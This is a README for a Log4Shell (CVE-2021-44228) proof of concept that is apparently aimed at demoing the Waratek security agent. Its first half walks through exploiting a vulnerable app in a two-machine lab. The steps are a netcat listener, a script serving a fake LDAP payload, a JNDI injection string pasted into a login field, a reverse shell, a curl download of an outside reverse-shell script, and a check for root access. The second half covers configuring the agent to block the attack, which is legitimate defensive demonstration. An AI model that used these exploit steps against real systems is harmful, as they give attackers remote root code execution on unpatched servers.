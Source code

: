 # log4j-shell-poc
A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Kudos to kozmer for the POC. I just added some niceties for demoing purposes and added the Waratek agent.<br><br>

Setup
----------------------------------------

This works best with two machines. I prefer to spin up 2 droplets on Digital Ocean because it's cheap for test purposes.<br><br>
One machine acts as the target while the other acts as the attacker.<br><br>
Before moving forward, download the following version of Java SE Development Kit `java-8u20` here: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html<br><br>

Prep
----------------------------------------

- Move the extracted archive for the Java SE Development Kit into the root of this repo
- Upload the root of this repo with the extracted Java SE Development Kit into your **attacker** machine
- Ensure that `python3` is installed on your attacker machine (if not follow guide here: https://www.digitalocean.com/community/tutorials/how-to-install-python-3-and-set-up-a-programming-environment-on-an-ubuntu-20-04-server)
- Upload the root of this repo without the extracted Java SE Development Kit into your **target** machine

Steps to Follow
----------------------------------------

#### Start the vulnerable application on the target machine with the following commands

```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

Note: This runs the application without the Waratek Security-as-Code platform. More information on implementing the platform below.<br><br>

### Prep the exploit

- On the attacker machine open 2 shells: One to listen for the reverse shell, and one to run the server
- On the first shell for the attacker machine, open a port with netcat: `$ nc -lvnp 9001`
- On the second shell for the attacker machine, start the webserver that will deliver the exploit payload with: `$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001` where `{attackerIP}` is the IP address of the attacker machine
- When the web server launches, you'll receive a payload in the ouput as seen below:
```py
$ python3 poc.py --userip {attackerIP} --webport 8080 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```
- Copy the payload from __"Send me:"__ and open up the vulnerable application in your browser.
- Paste the payload into the email field and put in any value as the password, then press "Sign in."
- The browser should hang and then on the attacker machine shell with netcat running you should see a connection established.
- Download this reverse shell Python script with: `$ curl -O https://gist.githubusercontent.com/jacobwarren/0abf1c5d3d2e969ac8dfcc5a10abf8e8/raw/7dce0c1924c06c20c1471bc4c0824704024c535c/revsh.py`
- Then run it with `$ python3 revsh.py` to establish a TTY
- Now run `$ WHOAMI` to verify that you're indeed root.

Testing the Waratek  Security-as-Code agent
--------------------------------------------

- Move the `waratek` folder to the root directory of this repo
- In the `Dockerfile` uncomment out lines 30, 33, and 36.

#### Line 30
This line adds the waratek folder to the Tomcat directory in the container<br><br>

#### Line 33
This line sets proper permissions for the contents of the agent folder<br><br>

#### Line 36
This line sets the Java options to start launch your application with Waratek as your Java agent<br><br>

### Configure your agent
Within the `waratek/conf_1` directory, open the `waratek.properties` file.<br><br>

- Assign the desired agent ID to your application with the `com.waratek.ControllerKey` property
- Assign your organization ID with the `com.waratek.OrgId` property
- To authenticate your application, assign both your `accessKey` and `secretKey` to the assocated properties

### Rebuild Docker container
```bash
$ docker build -t log4j-shell-poc .
$ docker run --network host log4j-shell-poc
```

- Go through the above steps again to reproduce the POC
- Verify the exploit works
- Define your security behavior either in the Policy Config file (running in the container - so `docker exec` in) or from within the Portal
- Verify that the exploit isn't possible to perform again without restarting the container
